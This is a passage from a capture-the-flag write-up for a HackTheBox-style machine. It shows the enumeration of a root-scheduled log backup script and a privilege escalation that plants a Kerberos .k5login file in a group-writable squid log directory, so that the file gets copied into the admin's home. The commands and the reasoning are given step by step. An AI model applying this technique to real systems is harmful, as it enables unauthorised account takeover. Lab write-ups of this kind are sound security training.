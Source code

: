 ```bash
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

Let us check out the log_backup script.

```bash
[j.nakazawa@srv01 ~]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

Seems like the admin user copies **everything** from the /var/log/squid folder to his home-folder. Then it archives the two log files and deletes the two files. As everything is copied, but only the two specified files are deleted, we potentially have arbitrary-write in the /home/admin folder.

Let us confirm this by checking if we have write-access to the /var/log/squid folder.

```bash
[j.nakazawa@srv01 ~]$ ls -alh /var/log/
total 1.4M
drwxr-xr-x. 12 root   root   4.0K Feb 23 19:52 .
drwxr-xr-x. 22 root   root   4.0K Dec 24 06:24 ..
drwx-wx---.  2 admin  squid    41 Dec 24 06:36 squid
```

Seems like only the admin user can read the folder, however the squid-group can write to the folder. Let us check our groups.

```bash
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users)
```

Seems like we are part of the squid group, which confirms our attack-vector. The only question left is what we want to write to the folder. Normally, I would write my ssh-key to .ssh/authorized_keys. However, public-key authentication is disabled. My `Kerberos with SSH` research, revealed that there is a way to allow other users to login to one's account using a `.k5login` file as stated in [this article](https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch04s14.html): 

"If you want to allow someone else to log into your account via Kerberos, you can add their Kerberos principal to your **~/.k5login** file. Be sure to also add your own as well if you create this file, since otherwise you will be unable to access your own account!"

### Privesc to admin: Exploiting the log_backup script

The exploitation is quite simple: We have to write our principal to `/var/log/squid/.k5login` and wait until it is copied to the admin's folder. Then we should be able to SSH as admin.

```bash
[j.nakazawa@srv01 ~]$ echo 'j.nakazawa@REALCORP.HTB' > /var/log/squid/.k5login
```
